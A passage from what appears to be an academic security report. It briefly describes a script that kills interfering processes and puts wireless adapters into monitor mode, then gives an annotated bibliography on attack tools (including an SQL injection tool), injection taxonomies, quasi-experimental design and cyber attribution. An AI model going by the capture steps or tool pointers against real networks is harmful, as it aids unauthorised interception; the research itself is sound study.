The script will then put the devices into monitor mode.  It was here that we were having problems earlier.  As emphasized before, if the transceiver cannot go into monitor mode, the project will fail.  The first phrase of commands, with check and kill, will tell airmon-ng to police any processes that might interfere with the capture.  In development runs, we could see that demons like wpa\_supplicant were getting turned off.  These decisions were all automatic; apparently they were made well enough; we never had any other part of the system interfering with the script because of other, normal processes.

%==============================================================================

\section{References}

\subsection{Books}
Lee Bortherston and Amanda Berlin. The Defensive Security Handbook. O'Reilly, 2017. ISBN: 9781491960387. This book outlines procedures for establishing and implementing security policies within an organization. Its recommendations are based on current common industry practices.

Shadish, William R. Jr., Thomas Cook, Laura C. Leviton. Foundations of Program Evaluation: Theories and Practice. pp. 36-67. Sage Publications, First printing, 1991. ISBN 0-08-039355-1. UTC Library Call H 62 .S433 1991.

Anderson, Virgil and Robert McLean. Design of Experiments: A Realistic Approach. pp. 79-93. Purdue University, University of Tennessee. Marcel Dekker, Inc., New York, 1974. ISBN 0-8247-7493-0. UTC Library Call QA 279 .A53 This book shows the more rigid, traditional model of experimental design. It's presented as a reference in contrast to the main theme of quasi-experimentation that is our focus in this study.

Ullman, Larry. PHP for the Web. Pearson Education, Peachpit Press, fourth edition, 2011. ISBN 978-0-321-73345-29000. A tutorial for learning on PHP is presented, with some small instruction on how code can be injected into the program processing cycle.

Tatroe, Kevin and Peter MacIntyre, Rasmus Lerfdorf. Programming PHP. O'Reilly, third edition, 2013. ISBN 978-1-449-39277-2. A general overview of the language is presented in this manual.

Regalado, Daniel, et. al. Grey Hat Hacking: The Ethical Hacker's Handbook. pp.385-414. McGraw Hill Education, fourth edition, 2015. ISBN 978-0-183238-0. Regalado's book on hacking is an aggregate of his and other's works. It offers chapters on different flavors of hacking, with variance by system type, target type, and mode of \gls{attack}. The chapters feature many examples and provide a discourse on the common patterns of \gls{attack}.

Weidman, Georgia. Penetration Testing: A Hands-On Introduction to Hacking. No Starch Press, 2014. ISBN 978-1-59327-564-8. This book provided strong references and tutorials for common pen-testing methods. While slightly dated, aside from the technological limitations that have arisen after publication, Weidman's book provides another view of a common path in pen-testing, and therefore, hacking, web programs.

Seitz, Justin. Black Hat Python: Python Programming for Hackers and Pentesters. No Starch Press, second printing, 2014. ISBN 978-1-59327-590-7. This book is a common reference that provides insight into how short Python scripts can be used to quickly generate original programs that can be used for network attacks. It suggests that skilled attackers do not need to rely on prefabricated tools. Also, the commonailty of function between the programs demonstrated and other common resources shows a unity in capability.

Shelly, Gary B. and Harry J. Rosenblatt. Systems Analysis and Design. Course Technology. PP.570-615. CENGAGE Learning, ninth edition, 2012. ISBN 978-1-133-27405-6.

Shadish, William, et al. Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Wadsworth, CENGAGE Learning, 2002. ISBN 978-0-395-61556-0. Shadish's work extensively influenced this paper. Shadish, who died in 2016, served as a professor at the University of Memphis and the University of California Merced. He studied and published on experimental design for most of his career. Shadish's work was directed primarily at the fields of psychology and education; but, his analysis of experimentation was so thorough that most of his descriptions and advice can be directed towards computer science. Since the structure of experimenting with cyber-\gls{attack} situations are similar to the structure of the study of social problems, most of his work directly translates into today's \gls{attack}-and-defense practices for information security. I first came across Shadish's work in Benjamin Dean's article. Shadish's writing served as a strong influence on my research into these topics.

Day, Paul. CyberAttack: The truth about digital crime, cyber warfare and government snooping. Carlton Books, 2014. ISBN 978-1-78097-533-7. Paul Day's book provides short, easy-to-read chapters on popular topics in the malicious use of computers.

Edwards, Betty. Drawing on the Right Side of the Brain: A Course in Enhancing Creativity and Artistic Confidence. Jeremey P. Tarcher, Inc., St. Martin's Press, 1989. ISBN 978-0-87477-513-2. Betty Edwards' book describes theories in left and right brain cognition in simple, popular terms for the purpose of supporting instruction in elementary illustration. Her book provides examples on the differences in left-brain, analytical and detailed thinking and in right-brain, holistic evaluations.

Watson, Colin and Tin Zaw. OWASP Automated \gls{threat} Handbook: Web Applications. Version 1.1, OWASP Foundation, November 2016. ISBN 978-1-329-42709-9.

Watson, Collin and Tin Zaw, Watson, Colin and Tin Zaw. OWASP Automated \gls{threat} Handbook: Web Applications. Version 1.1, OWASP Foundation, November 2016. ISBN 978-1-329-42709-9., p. 17: " ... the best defended applications do not rely solely upon standalone external operational protections, but also have integrated protection built into the design." "Countermeasures are controls that attempt to mitigate the identified automated threats in three ways: \begin{itemize} \item Prevent - Controls to reduce the susceptibility to automated threats \item Detect - Controls to identify whether an automated user is a human ... \item Recover - Controls ... to assist return of the application to its normal state" \end{itemize}

Watson, Collin and Tin Zaw, Watson, Colin and Tin Zaw. OWASP Automated \gls{threat} Handbook: Web Applications. Version 1.1, OWASP Foundation, November 2016. ISBN 978-1-329-42709-9., p. 8, Figure 1: Glossary of \gls{attack} terms collected from OWASP Automated \gls{threat} Handbook PDF Online Version. \url{https://www.owasp.org/index.php/File:Automated-\gls{threat}-handbook.pdf} "Figure 1: Automated \gls{threat} Events, ordered by ascending name \begin{itemize} \item OAT-017 Spamming Malicious or questionable information addition that appears in public or private content, databases or user messages \item OAT-002 Token Cracking Mass enumeration of coupon numbers, voucher codes, discount tokens, etc \item OAT-014 Vulnerability Scanning Crawl and fuzz application to identify weaknesses and possible vulnerabilities " \end{itemize}

Shadish, William, Shadish, William R. Jr., Thomas Cook, Laura C. Leviton. Foundations of Program Evaluation: Theories and Practice. pp. 36-67. Sage Publications, First printing, 1991. ISBN 0-08-039355-1. UTC Library Call H 62 .S433 1991. pp. 21-35. Intrusion detection systems,

Stallings, William. Network Security Essentials: Applications and Standards. Fifth Edition. ISBN 978-0-13-337043-0. pp. ... -357

Stallings, William. Stallings, William. Network Security Essentials: Applications and Standards. Fifth Edition. ISBN 978-0-13-337043-0. pp. ... -357 p. 348 "As with statistical anomaly detection, rule-based anomaly detection does not require knowledge of security vulnerabilities within the system. Rather, the scheme is based on observing past behavior and, in effect, assuming that the future will be like the past. In order for this approach to be effective, a rather large database of rules will be needed. For example, a scheme described in [VACC89] contains anywhere from 10\^4 to 10\^6 rules."

Stallings, William. Stallings, William. Network Security Essentials: Applications and Standards. Fifth Edition. ISBN 978-0-13-337043-0. pp. ... -357 p. 363 Poor \gls{password} choices, from Stallings, roughly 25\% of passwords could be cracked using four strategies: \begin{itemize} \item "Try the user's name, initials, account name and other relevant information ... \item "Try words from various dictionaries ... \item "Try various permutations of words from step 2 ... \item "Try various capitalization permutations from words in step 2 that were not considered in step 3 ... " \end{itemize}

Stallings, William. Stallings, William. Network Security Essentials: Applications and Standards. Fifth Edition. ISBN 978-0-13-337043-0. pp. ... -357 p. 363 "Keep in mind that such a thorough search could produce a success rate of about 25\%, whereas even a single hit may be enough to gain a wide range of privileges on a system."

Robbins, Arnold. Bash Pocket Reference. O'Reilly, second edition.

Fourzan, Behrouz A. TCP/IP Protocol Suite. Fourth Edition. McGraw-Hill, 2006. ISBN 978-0-07-337604-2.

\subsection{Articles}
Kampf, David, ed.; Dean, Benjamin. "Natural and Quasi-Natural Experiments to Evaluate Cybersecurity Policies," Journal of International Affairs. pp.139-160. Winter 2016, Volume 70, Number 1. JIA.SIPA.COLUMBIA.EDU. Columbia University.

Lipsey, Mark, ed.; Trochim, William, ed.; Shadish, William R., Thomas D. Cook, Arthur C. Houts. "Quasi-Experimentation in a Critical Multiplist Mode," Advances in Quasi-Experimental Design and Analysis, New Directions for Program Evaluation. pp.29-46. Cornell University, Claremont Graduate School, American Evaluation Association, 1986.

Kampf, David, ed.; Lin, Herbert. "Attribution of Malicious Cyber Incidents: From Soup to Nuts," Journal of International Affairs. pp.75-138. Winter 2016, Volume 70, Number 1. JIA.SIPA.COLUMBIA.EDU. Columbia University. This article outlines the difficulties in correctly attributing a cyberattack. Lin points out that we may have weak definitions for the goals of attribution, encounter substantial legal and technical problems, and can expect little relief for victims who ask that attribution of an \gls{attack} be obtained. Lin, like Benjamin Dean, authored an article whose references led me to other references. % Shadish Text % Quotations from William Shadish's book, Experimental and Quasi-Experimental Designs for Generalized Causal Inference. Ibidem.

Shadish, William, Ibidem., pp. 2-3: "But when scientists started to use experiments in areas such as public health or education, in which extraneous influences are harder to control ... they found that the controls used in natural science in the laboratory worked poorly in these new applications. So they developed new methods of dealing with extraneous influence, such as random assignment (Fisher, 1925) or adding a nonrandomized control group (Coover \& Angell, 1907). As theoretical and observational experience accumulated across these settings and topics, more sources of bias were identified and more methods were developed to cope with them (Dehue, 2000)."

Shadish, William, Ibidem., p. 15: "The ruling out of alternative hypotheses is closely related to falsificationist logic popularized by Popper (1959). Popper noted how hard it is to be sure that a general conclusion ... is correct based on a limited set of observations ... After all, future observations may change ... So confirmation is logically difficult. By contrast, observing a disconfirming instance ... is sufficient, in Popper's view, to falsify the general conclusion ... Accordingly, Popper urged scientists to try deliberately to falsify the conclusions they wish to draw rather than only to seek information corroborating them. Conclusions that withstand falsification are retained in scientific books or journals and treated as plausible until better evidence comes along. Quasi-experimentation is falsificationist in that it requires experimenters to identify a causal claim and then to generate and examine plausible alternative explanations that might falsify their claim."

Lin, Herbert, Kampf, David, ed.; Lin, Herbert. "Attribution of Malicious Cyber Incidents: From Soup to Nuts," Journal of International Affairs. pp.75-138. Winter 2016, Volume 70, Number 1. JIA.SIPA.COLUMBIA.EDU. Columbia University. This article outlines the difficulties in correctly attributing a cyberattack. Lin points out that we may have weak definitions for the goals of attribution, encounter substantial legal and technical problems, and can expect little relief for victims who ask that attribution of an \gls{attack} be obtained. Lin, like Benjamin Dean, authored an article whose references led me to other references., p. 96-97 "The following hierarchy ... is largely based on Jason Healey's taxonomy in 'Beyond Attibution: Seeking National Responsibility for Cyber Attacks.'\textsuperscript{32} \begin{itemize} \item A state could be incapable of detecting ... \item ... encourage ... \item ... direct ... \item ... conduct hacking activities." \end{itemize}

Sedlock, Alicia. "An Introduction to Frontend Testing," The Ultimate Javascript Manual 2017. Future Publishing Ltd., Future PLC, Quay House, The Ambury, Bath. pp.26-31. Single page application testing with Jasmine. Definitions of contemporary frontend testing terms.

\subsection{Web Resources}
\_\_\_\_\_. "Internet of Things \gls{ddos} White Paper." Electricity Information Sharing and Analysis Center, IOT\_DDOS\_Whitepaper.pdf. This report described some contemporary cyberattacks. It included coverage of the Mirai \gls{botnet} and other large attacks.

\_\_\_\_\_. "http://php.net/manual/en/security.database.sql-injection.php" INTERNET. PHP Manua, Security, Database Security. PHP Manual entry on SQL Injection.

\_\_\_\_\_. SCRT Information Security, "https://www.scrt.ch/en/\gls{attack}/downloads/mini-mysqlat0r" INTERNET. This \gls{attack} tool is published on the Internet. I have seen real-world situations in which I believe it was used to \gls{attack} the websites of my commercial clients. I first spotted it in a YouTube video that was recorded as an instructive example by hackers for hackers. I decided to include it in the \gls{attack} suites for the experiment based on my belief that it was an actual \gls{attack} tool used by skiddies and hackers. It is an automated SQL Injection \gls{attack} Tool packaged in Java with a Swing interface.

\_\_\_\_\_. SCRT Information Security, "https://www.scrt.ch/outils/mms/mms\_manual.pdf" INTERNET.

Fresnillo, Rodolfo Resendez. YouTube, "MiniMysqlator \& Pblind", "https://www.youtube.com/watch?v=uK3\_qR3Kn\_g" YouTube,10AUG2010, INTERNET. This is the link to the video where I first saw MiniMysqlator being used.

\_\_\_\_\_. "https://www.nist.gov/news-events/events/2017/03/cybersecurity-framework-virtual-events" \gls{nist}, INTERNET.

\_\_\_\_\_. "https://owasp.org/index.php/Top\_10\_2013-Top\_10" OWASP, 2017. INTERNET.

Doug Rodgers, Twitter: @pandatrax, INTERNET. "Beginner \gls{exploit} Writing," B-Sides Charleston class, October 2016.

\_\_\_\_\_. PHPUnit, "https://phpunit.de/". INTERNET.

\_\_\_\_\_. JUnit, "http://junit.org/junit4/". INTERNET.

\_\_\_\_\_. QUnit, "http://qunitjs.com/". INTERNET.

\_\_\_\_\_. Selenium, "http://docs.seleniumhq.org/". INTERNET.

\_\_\_\_\_.Kali Linux, "https://www.kali.org/". INTERNET.

\_\_\_\_\_. WindowsVM, \url{https://www.microsoft.com/en-us/download/details.aspx?id=3702}. INTERNET.

\_\_\_\_\_. MySQL, "https://www.mysql.com/" . INTERNET.

\_\_\_\_\_. phpMyAdmin, "https://www.phpmyadmin.net/". INTERNET.

\_\_\_\_\_. VirtualBox, "https://www.virtualbox.org/". INTERNET.

\_\_\_\_\_. VMWare, "http://www.vmware.com/". INTERNET.

\_\_\_\_\_. Microsoft Azure, "https://azure.microsoft.com/en-us/?cdn=disable". INTERNET.

Lin, Herbert, Ibidem., p. 99-100: "... first, that attribution is a largely intractable problem because of technical characteristics and geography of the Internet ... and second, that attribution is either possible or not possible in any given case of interest. \textsuperscript{43} The third assumption -- that the main challenge in attribution is finding evidence itself and not in interpreting or using it -- is relevant ... "

Nather, Wendy quoted by Marcus Ranum. "Wendy Nather: 'We're on a trajectory for profound change',"Medium. http://searchsecurity.techtarget.com/opinion/Wendy-Nather-Were-on-a-trajectory-for-profound-change, INTERNET.

Interview, Marcus Ranum and Wendy Nather, Nather, Wendy quoted by Marcus Ranum. "Wendy Nather: 'We're on a trajectory for profound change',"Medium. http://searchsecurity.techtarget.com/opinion/Wendy-Nather-Were-on-a-trajectory-for-profound-change, INTERNET.: "[Ranum:] I found the field fascinating because it was so irregular. Nobody really seemed to know how to think about it, except for the formal systems/Orange Book (Trusted Computer System Evaluation Criteria) crowd, and they were off in impractical la-la land. Nather: We were all making stuff up as fast as we could. This was in the mid-90s, and we did our bank's first internet presence in the form of a website. I had two or three teams of engineers all checking each other's work because we were all really nervous about what this was going to be like."

Shadish, William. CV, University of California Merced. INTERNET: http://faculty.ucmerced.edu/wshadish/shadish-cv-jan-2015. Shadish, William. Biographical sketch, University of California Merced.http://faculty.ucmerced.edu/wshadish/biosketch.

\_\_\_\_\_. INTERNET: http://www.ipr.northwestern.edu/workshops/annual-summer-workshops/quasi-experimental-design-and-analysis/ This workshop shows that Shadish's methods are still being studied and implemented. This workshop is one example of coaching other professionals into using quasi-experimental design techniques. It was sponsored by Northwestern University and funded by a grant from the \gls{us} Department of Education.

\_\_\_\_\_, "aleph one." "Smashing the Stack for Fun and Profit," Phrack 49, republished, INTERNET: http://insecure.org/stf/smashstack.html Explanation of buffer overflow exploits.

\_\_\_\_\_. "0x0 \gls{exploit} Tutorial: Buffer Overlow - Vanilla EIP Overwrite," INTERNET: http://www.primalsecurity.net/0x0-\gls{exploit}-tutorial-buffer-overflow-vanilla-eip-overwrite-2/ Explanation of common practices in \gls{malware} experimental construction.

Raspberry Pi \gls{os} Download: https://www.raspberrypi.org/downloads/raspbian/

Raspberry Pi Kali Download: https://docs.kali.org/kali-on-arm/install-kali-linux-arm-raspberry-pi

Powershell to get the \gls{hash} of a download on Windows 10: https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/get-filehash?view=powershell-5.1 Get-FileHash 2017-09-07-raspbian-stretch-lite.zip -Algorithm SHA384 | Format-List

\_\_\_\_\_. https://unix.stackexchange.com/questions/151547/linux-set-date-through-command-line. INTERNET.

\_\_\_\_\_. INTERNET: https://\gls{motherboard}.vice.com/en\_us/article/vv7zn9/surprise-scans-suggest-hackers-put-imsi-catchers-all-over-defcon

\_\_\_\_\_. INTERNET: https://www.aircrack-ng.org/

\_\_\_\_\_. INTERNET: https://www.aircrack-ng.org/doku.php?id=compatibility\_drivers

\_\_\_\_\_. INTERNET: https://wikidevi.com/wiki/TP-LINK\_TL-WN722N

\_\_\_\_\_. INTERNET: https://wikidevi.com/wiki/TP-LINK\_TL-WN722N\_v2

\_\_\_\_\_. INTERNET: https://wikidevi.com/wiki/ALFA\_Network\_AWUS036NH

\_\_\_\_\_. INTERNET: https://hakshop.com/products/wifi-pineappling-book

\_\_\_\_\_. INTERNET: http://goo.gl/iMVWew WiFi Pineapple Book Chapter Preview, Chapter 3.

\_\_\_\_\_. INTERNET: https://www.raspberrypi.org/

\_\_\_\_\_. INTERNET: https://www.raspberrypi.org/downloads/raspbian/

\_\_\_\_\_. INTERNET: https://www.raspberrypi.org/documentation/\gls{configuration}/raspi-config.md

\_\_\_\_\_. INTERNET: https://www.walmart.com/ip/TP-LINK-TL-WN722N-N150-High-Gain-Wireless-USB-Adapter/17133249

\_\_\_\_\_. INTERNET: https://www.amazon.com/Alfa-AWUS036NH-802-11g-Wireless-Long-Range/dp/B003YIFHJY

\_\_\_\_\_. INTERNET: https://www.amazon.com/Alfa-AWUSO36NH-Wireless-Long-Rang-Network/dp/B0035APGP6

\_\_\_\_\_. INTERNET: https://www.csoonline.com/article/2462478/microsoft-subnet/hacker-hunts-and-pwns-wifi-pineapples-with-0-day-at-def-con.html

\_\_\_\_\_. INTERNET: https://twitter.com/ihuntpineapples/media

Reddit Owned : \_\_\_\_\_. INTERNET: https://www.reddit.com/r/Defcon/comments/2d16lk/your\_pineapple\_has\_been\_owned\_son/\#bottom-comments

\_\_\_\_\_. INTERNET: https://capec.mitre.org/

\_\_\_\_\_. INTERNET: https://capec.mitre.org/data/definitions/1000.html "Mechanisms of \gls{attack}"

\_\_\_\_\_. INTERNET: https://capec.mitre.org/data/definitions/152.html "Inject Unexpected Items"

\_\_\_\_\_. INTERNET: https://capec.mitre.org/data/definitions/137.html "Parameter Injection"

\_\_\_\_\_. INTERNET: https://capec.mitre.org/data/definitions/513.html "CAPEC Category: Software"

\_\_\_\_\_. INTERNET: https://capec.mitre.org/data/definitions/248.html "Command Injection "

\_\_\_\_\_. INTERNET: https://capec.mitre.org/data/definitions/66.html "SQL Injection"

\_\_\_\_\_. INTERNET: https://capec.mitre.org/data/definitions/108.html "Command Line Execution Through SQL Injection"

\_\_\_\_\_. INTERNET: http://cwe.mitre.org/data/definitions/707.html "Improper Enforcement of Message or Data Structure"

\_\_\_\_\_. INTERNET: http://cwe.mitre.org/data/definitions/74.html " CWE-74: Improper Neutralization of Special Elements in Output Used by a Downstream Component ('Injection')"

\_\_\_\_\_. INTERNET: http://capec.mitre.org/data/definitions/242.html "Code Injection"

\_\_\_\_\_. INTERNET: https://capec.mitre.org/data/definitions/110.html SOAP "CAPEC-110: SQL Injection through SOAP Parameter Tampering"

\_\_\_\_\_. INTERNET: http://cwe.mitre.org/data/definitions/89.html "CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')"

\_\_\_\_\_. INTERNET: http://cwe.mitre.org/data/definitions/929.html "CWE-88: Argument Injection or Modification" CWE-90: Improper Neutralization of Special Elements used in an LDAP Query ('LDAP Injection')

\subsection{Other}
\_\_\_\_\_. "Framework for Improving Ciritcal Infrastructure Cybersecurity." \gls{nist}, 2014. This \gls{nist} document provides the summary structure of risk assessments discussed in this report. Most of the document is a large, multi-page chart.

Haight, Jared. "Introduction to Powershell and How to Use It for Evil." Information Security Lecture sponsored by B-Sides Charleston. Charleston, SC, \gls{usa}. April 2017. Jared Haight is the author of "PS>\gls{attack}," a library of \gls{attack} tools for PowerShell. He has since transitioned to employment as a security researcher for Microsoft.

\_\_\_\_\_. B-Sides Charleston, 11-12NOV2016. Security conference, Charleston, SC.

Gillam, Jason. "Web Penetration and Testing," B-Sides Charleston, 11NOV2016. Class at a security conference, Charleston, SC.

Shadish, William, Ibidem., p. 3 : "Today, the key feature common to all experiments is still to deliberately vary something so as to discover what happens to something else later--to discover the effects of the presumed causes."

Shadish, William, Ibidem., p. 3: "This chapter begins to explore these matters by (1) discussing the nature of causation that experiments test, (2) explaining the specialized terminology (e.g. randomized experiments, quasi-experiments) that describes social experiments, (3) introducing the problem of how to generalize causal connections from individual experiments, and (4) briefly situating the experiment within larger literature on the nature of science."

Shadish, William, Ibidem., p. 4: "John Locke said: ... 'A cause is that which makes any other thing, either simple idea, substance, or mode, begin to be; and an effect is that, which had its beginning from some other thing' (p. 325)."

Shadish, William, Ibidem., p. 4: "A lighted match is, therefore, what Mackie (1974) called an inus condition-- 'an insufficient but non-redundant part of an unnecessary but sufficient condition' (p.62) ... It is part of a sufficient condition to start a fire in combination with the full constellation of factors."

Shadish, William, Ibidem., p. 5: "Endostatin was an inus condition. It was insufficient cause by itself, and its effectiveness required it to be embedded in a larger set of conditions that were not even fully understood by original investigators."

Shadish, William, Ibidem., p. 5: "Most causes are more accurately called inus conditions. ... This is one reason that the causal relationships we discuss in this book are not deterministic but only increase in probability that an effect will occur (Eells, 1991; Holland, 1994)."

Shadish, William, Ibidem., p. 5: "To difference degrees, all causal relationships are context dependent, so the generalization of experimental effect is always at issue."

Shadish, William, Ibidem., p. 5: "A counterfactual is something that is contrary to fact."

Shadish, William, Ibidem., p. 5: "An effect is the difference between what did happen and what would have happened."

Shadish, William, Ibidem., p. 6: "How do we know if cause and effect are related? In a classic analysis formalized by the 19th-centure philosopher John Stuart Mill, a causal relationship exists if (1) the cause preceded the effect, (2) the cause was related to the effect, and (3) we can find no plausible alternative explanation for the effect other than the cause."

Shadish, William, Ibidem., p. 7: "A well-known maxim in research is: Correlation does not prove causation. This is so because we may not know which variable came first nor whether alternative explanations for the presumed effect exist."

Shadish, William, Ibidem., p. 7: "Correlations also do little to rule out alternative explanations for a relationship between two variables ... That relationship may not be causal at all but rather due to a third variable (often called a confound)."

Shadish, William, Ibidem., p. 7: "Experiments explore the effects of things that can be manipulated. ... Nonmanipulable events ... or attributes ... cannot be causes in experiments because we cannot deliberately vary them to see what happens. Consequently, most scientists and philosophers agree that it is much harder to discover the effects of nonmanipulable causes."

Shadish, William, Ibidem., p. 9: "The unique strength of experimentation is in describing the consequences attributable to deliberately varying a treatment. We call this causal description."

Shadish, William, Ibidem., p. 9: "... the conditions under which that causal relationship holds -- what we call causal explanation."

Shadish, William, Ibidem., p. 10: "The practical importance of causal explanation is brought home when ... (another easily learned manipulation) fails to solve the problem. Explanatory knowledge then offers clues about how to fix the problem ..."

Shadish, William, Ibidem., p. 10: "So causal explanation is an important route to the generalization of causal descriptions because it tells us which features of the causal relationship are essential to transfer to other situations."

Shadish, William, Ibidem., p. 10: "These examples also show the close parallel between descriptive and explanatory causation and molar and molecular causation.\textsuperscript{4 }... 4. By molar, we mean something taken as a whole rather than in parts. An analogy is to physics, in which molar might refer to the properties or motions of masses, as distinguished from those of molecules or atoms that make up those masses."

Shadish, William, Ibidem., p. 11: "If experiments are less able to provide this highly prized explanatory causal knowledge, why are experiments so central to science ... ?"

Shadish, William, Ibidem., p. 11: "First, many causal explanations consist of chains of descriptive causal links in which one event causes the next. ... Second, experiments help distinguish between the validity of competing explanatory theories ..."

Shadish, William, Ibidem., p. 12: "In the end, then, causal descriptions and causal explanations are in delicate balance in experiments. What experiments do best is to improve causal descriptions; they do less well at explaining causal relationships."

Shadish, William, Ibidem., p. 14: "In quasi-experiments, the cause in manipulable and occurs before the effect is measured."

Shadish, William, Ibidem., p. 14: "In quasi-experiments, the researcher has to enumerate alternative explanations one by one, decide which are plausible, and then use logic, design, and measurement to assess whether each one is operating in a way that might explain any observed effect."

Shadish, William, Ibidem., p. 15: "The efforts of the quasi-experimenter start to look like attempts to bandage a wound that would have been less severe if random assignment had been used initially."

Shadish, William, Ibidem., p. 15: "Kuhn (1962) pointed out that falsification depends on two assumptions that can never be fully tested. The first is that the causal claim is perfectly specified. ... Second, falsification falsification requires measures that are perfectly valid reflections of the theory being tested."

Shadish, William, Ibidem., p. 16: "... a fallibilist version of falsification is possible. ... Fallibilist falsification also assumes that theory-neutral observation is impossible but that observations can approach a more factlike status when they have been repeatedly made across different theoretical conceptions of a construct, across multiple kinds of measurements, and at multiple times."

Shadish, William, Ibidem., p. 16: "As a result, observations that repeatedly occur despite different theories being built into them have a special factlike status even if they can never be fully justified as theory-neutral facts."

Shadish, William, Ibidem., p. 16: "It is neither feasible nor desirable to rule out all possible alternative interpretations of a causal relationship. Instead, only plausible alternatives constitute the major focus. ... It also recognizes that many alternatives have no serious empirical or experimental support and so do not warrant special attention. However, lack of support can sometimes be deceiving."

Shadish, William, Ibidem., p. 17: "Thus the focus on plausibility is a two-edged sword: it reduces the range of alternatives to be considered in quasi-experimental work, yet it also leaves the resulting causal influence vulnerable to the discovery that an implausible-seeming alternative may later emerge as a likely causal agent."

Shadish, William, Ibidem., p.18. "Most experiments are highly localized and particularistic. They are almost always conducted in a restricted range of settings, often just one, with a particular version of one type of treatment rather than, say, a sample of all possible versions."

Shadish, William, Ibidem.,p.19: "In defining generalization as a problem, we do not assume that more broadly applicable results are always more desirable."

Shadish, William, Ibidem.,p.19: "Experiments that demonstrate limited generalization may be just as valuable as those that demonstrate broad generalization."

Shadish, William, Ibidem., p. 20: "We call these construct validity generalizations (inferences about the constructs that research operations represent) and external validity generalizations (inferences about whether the causal relationship holds over variation in persons, settings, treatment, and measurement variables)."

Shadish, William, Ibidem., p. 20: "The first causal generalization problem concerns how to go from the particular units, treatments, observations, and settings on which data are collected to the higher order constructs these instances represent."

Shadish, William, Ibidem., p. 21: "How can we generalize from a sample of instances and the data patterns associated with them to the particular target constructs they represent?"

Shadish, William, Ibidem., p. 21: "The second problem of generalization is to infer whether a causal relationship holds over variations in persons, settings, treatments and outcomes."

Shadish, William, Ibidem., p. 22: "Whichever way the causal generalization issue is framed, experiments do not seem at first glance to be very useful."

Shadish, William, Ibidem., p. 22: "So what is it that justifies any belief that an experiment can achieve a better fit between the sampling particulars of a study and more general inferences to constructs or over variations in persons, settings, treatments, and outcomes?"

Shadish, William, Ibidem., p. 23: "The method more often recommended for achieving this close fit is the use of formal probability sampling of instances of units, treatments, observations, or settings (Rossi, Wright, \& Anderson, 1983)."

Shadish, William, Ibidem., p. 23: "Random selection involves selecting cases by chance to represent that population, whereas random assignment involves assigning cases to multiple conditions."

Shadish, William, Ibidem., p. 23: "Random selection occurs even more rarely with treatments, outcomes, and settings than with people."

Shadish, William, Ibidem., p. 24: "Practicing scientists routinely make causal generalizations in their research, and they almost never use formal probability sampling when they do. In this book, we present a theory of causal generalization that is grounded in the actual practice of science (Matt, Cook, \& Shadish, 2000)."

Lin, Herbert, Ibidem., p. 97: "Prior to 11 September 2001 attacks on the United States, a nation-state was responsible for the acts of private groups inside its territory over which it exercised 'effective control.' \textsuperscript{36} In the aftermath of those attacks, the United States took the position that the mere harboring of these actors, even in the absence of control over them, suffixes to make the state where the terrorists are located responsible for their actions, and many parts of the international community, including the UN Security Council, concurred with this position. \textsuperscript{37}"

Lin, Herbert, Ibidem., p. 97-98: "For an action or omission to be considered wrongful, it must at least constitute a breach of international obligation. How and to what extent, if any, malicious cyber activities conducted across international borders constitute such breaches is contested and open to question."

Lin, Herbert, Ibidem., p. 98: "To the best of this author's knowledge, there is no body of international law that holds a nation accountable for the actions of its citizens per se."

Lin, Herbert, Ibidem., p. 98: "... three observations are pertinent. \begin{itemize} \item Technology has very little to say about proper definition for state responsibility ... \item ... the definition that a state will adopt in any given instance will almost certainly depend on the facts and circumstances of that instance ... \item Multiple parties could be responsible depending on how norms for assigning responsibility evolve ... " \end{itemize}

Lin, Herbert, Ibidem., p. 99: "Under the Rome Statute (which establishes the International Criminal Court and gives it jurisdiction over individuals charged with war crimes), Fidler argues that 'those making and posting the Islamic State's videos are criminally accountable' under IHL. \textsuperscript{42}"

Lin, Herbert, Ibidem., p. 100: "... the conventional wisdom holds that one cannot attribute a malicious cyber activity to its perpetrator with high confidence. \textsuperscript{44}"

Lin, Herbert, Ibidem., p. 101: "The conventional wisdom has a grain of truth to it -- technical \gls{forensics} alone cannot lead to high-confidence attribution. \textsuperscript{45} Caloyannides goes so far as to assert that '\gls{forensics}' presumed usefulness against anyone with computer savvy is minimal because such persons can readily defeat \gls{forensics} techniques. Because computer \gls{forensics} can't show who put the data where \gls{forensics} found it, it can be evidence of nothing.' \textsuperscript{46}"

Lin, Herbert, Ibidem., p. 101: "For example, a given intrusion may be similar or even identical to a previous intrusion -- the same code could be executed, the same IP addresses used, the same technical signatures found. Such similarity would suggest that the same party could be behind the intrusion at hand. \textsuperscript{47} ...Is such similarity conclusive or dispositive? Absolutely not. But neither should the clue it provides be thrown away."

Lin, Herbert, Ibidem., p. 101: "Behavioral information can also contribute to attribution judgments. For example, Carlin notes that useful clues may be found in the kinds of \gls{malware} that intruders use and in the way they communicate with their victims. \textsuperscript{48}"

Lin, Herbert, Ibidem., p. 102: "... the perpetrators behaved in ways that were similar to the behavior of criminals like serial killers who 'stage' the crime scene, arranging it to send a message or conceal involvement. Such stagings go beyond what is necessary to commit the crime, and they thus provide extra information that can be helpful in attribution."

Lin, Herbert, Ibidem., p. 102: "Another indicator may be the time of day ... In neither case is such evidence conclusive, but that evidence constitutes additional data points that may point to the human intruder."

Lin, Herbert, Ibidem., p. 102: "Sometimes intruders make mistakes of operational security. For example, an intruder may discuss his or her plans on insecure channels that are monitored."

Lin, Herbert, Ibidem., p. 102: "Because intelligence agencies collect information from a variety of different sources in different parts of the world, sometimes such information is available ..."

Lin, Herbert, Ibidem., p. 102: "The style and methodology of an intrusion may also be helpful to attribution."

Lin, Herbert, Ibidem., p. 103: "According to the CIA, human intelligence (HUMINT)--information that can be gathered from human sources--is collected through 'clandestine acquisition of photography, documents, and other material, overt collection by people overseas, debriefing of foreign nationals and U.S. citizens who travel abroad, and official contacts with foreign governments.' \textsuperscript{50}"

Lin, Herbert, Ibidem., p. 103: "HUMINT is not necessarily clandestine."

Lin, Herbert, Ibidem., p. 104: "Geopolitical circumstances could provide clues as to who would want to launch a particular intrusion."

Lin, Herbert, Ibidem., p. 104: "Finally, historical relationships help to frame the attribution process."

Lin, Herbert, Ibidem., p. 104: "In short, attribution is an all-source issue--no one method or source of information can be used to point fingers, but multiple sources taken as a whole may paint a convincing picture ..."

Lin, Herbert, Ibidem., p. 105-106: "Lastly, it is important to understand that the all-source intelligence process described in this section has a different focus than the discussion of the ultimate responsibility of states and non-state actors in previous sections. ... understanding who did what (the focus of the intelligence process) is different from, though relevant to, understanding who is to blame."

